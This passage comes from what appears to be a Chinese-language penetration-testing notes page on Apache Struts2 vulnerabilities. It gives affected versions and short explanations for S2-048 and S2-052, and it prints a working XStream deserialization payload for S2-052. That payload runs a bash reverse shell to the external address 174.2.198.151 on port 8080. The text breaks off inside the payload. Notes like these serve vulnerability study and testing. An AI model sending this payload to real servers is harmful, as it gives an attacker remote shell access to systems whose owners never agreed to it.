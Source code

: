 注意上面 `\x00` 处在 burp 里需要通过 Hex 界面修改为 `00` 字节，因此网上 PoC 大多使用 python 脚本编写而不是 burp 重放。

![图 8](8.png)

## s2-048

[参考](https://www.freebuf.com/vuls/140410.html)

影响版本：2.0.0 - 2.3.32

struts1 插件中将用户输入的 message 作为 OGNL 表达式执行，导致任意代码执行。这里可以直接使用 s2-045 的 PoC。

## s2-052

[参考](https://developer.aliyun.com/article/197926)

影响版本：2.1.2 - 2.3.33, 2.5 - 2.5.12

REST 插件用 XStream 处理 application/xml 的数据包，在反序列化 XML 时可以导致代码执行。

暂时没有发现带回显的 PoC，可以反弹 shell 来验证：

```xml
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>bash</string>
                        <string>-c</string>
                        <string>bash -i >& /dev/tcp/174.2.198.151/8080 0>&1</string>
```